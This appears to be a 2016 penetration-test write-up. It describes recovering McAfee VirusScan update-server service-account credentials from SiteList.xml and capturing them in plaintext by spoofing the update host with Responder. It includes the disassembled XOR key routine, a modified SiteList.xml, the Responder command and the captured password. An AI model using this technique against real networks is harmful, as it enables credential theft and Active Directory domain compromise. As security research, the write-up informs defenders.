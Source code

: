 
#### McAfee privileged SiteList.xml leads to Active Directory domain privilege escalation

#### 16/02/2016 UPDATE

Thanks to [@funoverip](https://twitter.com/funoverip) for his [password decryption tool](https://github.com/funoverip/mcafee-sitelist-pwd-decryption)

Thus for fun I tried to reverse the encryption process.

```
; Extract the XOR key
; \x12\x15\x0f\x10\x11\x1c\x1a\x06\x0a\x1f\x1b\x18\x17\x16\x05\x19\x00\x00\x00\x00
0x1001468e C645D812                        mov        byte [ss:ebp+var_28], 0x12
0x10014692 C645D915                        mov        byte [ss:ebp+var_27], 0x15
0x10014696 C645DA0F                        mov        byte [ss:ebp+var_26], 0xf
0x1001469a C645DB10                        mov        byte [ss:ebp+var_25], 0x10
0x1001469e C645DC11                        mov        byte [ss:ebp+var_24], 0x11
0x100146a2 C645DD1C                        mov        byte [ss:ebp+var_23], 0x1c
0x100146a6 C645DE1A                        mov        byte [ss:ebp+var_22], 0x1a
0x100146aa C645DF06                        mov        byte [ss:ebp+var_21], 0x6
0x100146ae C645E00A                        mov        byte [ss:ebp+var_20], 0xa
0x100146b2 C645E11F                        mov        byte [ss:ebp+var_1F], 0x1f
0x100146b6 C645E21B                        mov        byte [ss:ebp+var_1E], 0x1b
0x100146ba C645E318                        mov        byte [ss:ebp+var_1D], 0x18
0x100146be C645E417                        mov        byte [ss:ebp+var_1C], 0x17
0x100146c2 C645E516                        mov        byte [ss:ebp+var_1B], 0x16
0x100146c6 C645E605                        mov        byte [ss:ebp+var_1A], 0x5
0x100146ca C645E719                        mov        byte [ss:ebp+var_19], 0x19
0x100146ce C645D300                        mov        byte [ss:ebp+var_2D], 0x0
0x100146d2 C745C800000000                  mov        dword [ss:ebp+var_38], 0x0
0x100146d9 C745BC00000000                  mov        dword [ss:ebp+var_44], 0x0
0x100146e0 C745B400000000                  mov        dword [ss:ebp+var_4C], 0x0
0x100146e7 8B4D08                          mov        ecx, dword [ss:ebp+arg_0]
0x100146ea E811CCFEFF                      call       exp_?size@ABuffer@crypto@MA@mcafee_com@@QBEKXZ
```

---

#### 02/02/2016 UPDATE

According with [Intel Security response](https://kc.mcafee.com/corporate/index?page=content&id=KB86503) : this is not a security flaw in McAfee's product !

Find best practices [here](https://kc.mcafee.com/corporate/index?page=content&id=KB70999).

---

During an intern pentest, I came accross a nice way to privesc in an Active Directory domain.
I owned an employee's laptop with [**McAfee Virusscan Enterprise 8.8**](http://www.mcafee.com/us/products/virusscan-enterprise.aspx) installed and a low privilege account.

Mcafee has a feature to customize update servers and can connect to these servers via HTTP or SMB. (*C:\ProgramData\McAfee\Common Framework\*) **SiteList.xml** contains juicy informations like credentials, internal server names, ...

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="McAfeeHttp" Order="26" Enabled="1" Local="0" Server="update.nai.com:80">
<RelativePath>Products/CommonUpdater</RelativePath><UseAuth>0</UseAuth>
<UserName></UserName>
<Password Encrypted="1">XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX</Password>
</HttpSite>

<UNCSite Type="repository" Name="Paris" Order="13" Server="paris001" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

<UNCSite Type="repository" Name="Tokyo" Order="18" Server="tokyo000" Enabled="1" Local="0">
<ShareName>Repository$</ShareName><RelativePath></RelativePath><UseLoggedonUserAccount>0</UseLoggedonUserAccount>
<DomainName>companydomain</DomainName>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</UNCSite>

</SiteList></ns:SiteLists>
```

Let's check which rights we got with **McAfeeService**.

```
PS C:\Users\TAirane> net user McAfeeService /domain
The request will be processed at a domain controller for domain companydomain. 

User name                     McAfeeService
Full Name                     McAfee ePO
Comment                       Service Account for ePO Replication
User's comment
Country/region code           000 (System Default)
Account active                Yes
Account expires               Never
Password last set             29/01/2007 16:03:12
Password expires              Never
Password changeable           29/01/2007 16:03:12
Password required             Yes
User may change password      Yes

Workstations allowed          All
Logon script
User profile
Home directory
Last logon                    29/01/2016 17:55:09

Logon hours allowed           All

Local Group Memberships       *All Repository*Repository
Global Group memberships      *Domain Services Account*Workstations Administrator
                              *Servers Administrator*Domain Users
                              
The command completed successfully. 
```

Unfortunately the AV used GUI password, I couldn't edit the file. Thus, I downloaded and installed McAfee on my Windows Virtual Machine and just copied/pasted the previous precious sesame in my own SiteList.xml.

At this time, I knew that It was close. I edited the file like I could force an HTTP connection to any random server that I could spoof using [**Responder**](https://github.com/SpiderLabs/Responder). Actually the SiteList.xml looks like this.

```
<?xml version="1.0" encoding="UTF-8"?>
<ns:SiteLists xmlns:ns="naSiteList" Type="Client">
<SiteList Default="1" Name="SomeGUID">

<HttpSite Type="fallback" Name="PWNED!" Order="26" Enabled="1" Local="0" Server="fuckingrandomserver:80">
<RelativePath>LICORNE</RelativePath><UseAuth>1</UseAuth>
<UserName>McAfeeService</UserName>
<Password Encrypted="1">YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY</Password>
</HttpSite>

</SiteList></ns:SiteLists>
```

I clicked to update McAfee Antivirus and [Responder enters the matrix](https://www.youtube.com/watch?v=NEuZgK669zY).

```
root@kali:~/Tools/responder# python Responder.py -I eth0 --basic
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 2.3

  Original work by Laurent Gaffie (lgaffie@trustwave.com)
  To kill this script hit CRTL-C
...
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [ON]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [ON]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [eth0]
    Responder IP               [192.168.169.140]
    Challenge set              [1122334455667788]


[+] Listening for events...

[*] [LLMNR]  Poisoned answer sent to 192.168.169.141 for name fuckingrandomserver

[HTTP] Basic Client   : 192.168.169.141
[HTTP] Basic Username : McAfeeService
[HTTP] Basic Password : *\cool_its_a_strong_password/*
```

OMG, we got it ! Now, I can level up :) I can logon on any *Domain Controler* and access all workstations within the domain.

Mission accomplished !

![McAfee](img/McAfee.jpg)

[@tfairane](https://twitter.com/tfairane) greetz [@Fr33ster](https://twitter.com/Fr33ster)
